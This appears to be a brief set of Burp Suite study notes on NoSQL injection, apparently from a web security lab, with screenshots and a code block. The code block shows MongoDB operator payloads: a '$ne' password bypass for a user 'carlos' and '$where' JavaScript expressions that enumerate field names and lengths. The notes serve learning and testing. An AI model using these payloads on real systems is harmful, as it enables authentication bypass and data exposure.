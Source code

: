 ![image.png](Burp%20Suite%202561af578eba4b378c28fe54b47dd0b7/image%205.png)

"$where":"Object.keys(this)[1].match('^.{}.*')”

![image.png](Burp%20Suite%202561af578eba4b378c28fe54b47dd0b7/image%206.png)

```jsx
{
<pos 0> "_id" : 'xxxxxx',
<pos 1> "username":"carlos",
<pos 2> "password":{"$ne":"invalid"},
<pos 3> "posible_campo" : 'valor_campo'
}

"$where":"function(){ if (Object.keys(this)[1].match('username')) return 1; else 0;}"
"$where":"function(){ if (Object.keys(this)[1].length == 6 ) return 1; else 0;}"

{
"username":"carlos",
"password":{"$ne":"invalid"},
"$where": "1"

}
```
